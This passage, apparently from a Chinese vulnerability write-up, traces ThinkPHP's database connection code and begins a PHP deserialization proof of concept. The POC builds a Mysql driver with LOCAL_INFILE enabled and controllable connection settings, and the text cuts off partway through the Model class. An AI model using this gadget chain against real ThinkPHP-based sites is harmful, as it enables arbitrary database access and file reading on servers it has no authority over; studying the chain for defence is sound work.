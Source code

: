 跟进$this-&gt;initConnect()

```
protected function initConnect($master=true) `{`
if(!empty($this-&gt;config['deploy']))
$this-&gt;_linkID = $this-&gt;multiConnect($master);
else
if ( !$this-&gt;_linkID ) $this-&gt;_linkID = $this-&gt;connect();
`}`
```

跟进$this-&gt;connect()

```
public function connect($config='',$linkNum=0,$autoConnection=false) `{`
if ( !isset($this-&gt;linkID[$linkNum]) ) `{`
if(empty($config))$config =$this-&gt;config;
try`{`
if(empty($config['dsn'])) `{`
$config['dsn']=$this-&gt;parseDsn($config);
`}`
if(version_compare(PHP_VERSION,'5.3.6','&lt;='))`{`
$this-&gt;options[PDO::ATTR_EMULATE_PREPARES]=false;
`}`
$this-&gt;linkID[$linkNum] = new PDO( $config['dsn'], $config['username'], $config['password'],$this-&gt;options);
`}`catch ($e) `{`
if($autoConnection)`{`
trace($e-&gt;getMessage(),'','ERR');
return $this-&gt;connect($autoConnection,$linkNum);
`}`else`{`
E($e-&gt;getMessage());
`}`
`}`
`}`
return $this-&gt;linkID[$linkNum];
`}`
```

可以发现最终是以PDO建立数据库连接，$config 也就是$this-&gt;config可控，等于我们可以连接任意数据库，然后执行SQL语句。

可以参考[https://mp.weixin.qq.com/s/S3Un1EM-cftFXr8hxG4qfA](https://mp.weixin.qq.com/s/S3Un1EM-cftFXr8hxG4qfA)写出POC。

```
&lt;?php
namespace Think\Db\Driver;
use PDO;
class Mysql`{`
protected $options = array(
PDO::MYSQL_ATTR_LOCAL_INFILE =&gt; true
);
protected $config = array(
"dsn"=&gt; "mysql:host=localhost;dbname=xyhcms;port=3306",
"username" =&gt; "root",
"password" =&gt; "root"
);
`}`

namespace Think;
class Model`{`
protected $options= array();
protected $pk;
protected $data = array();
protected $db = null;
public function __construct()`{`
$this-&gt;db = new \Think\Db\Driver\Mysql();
```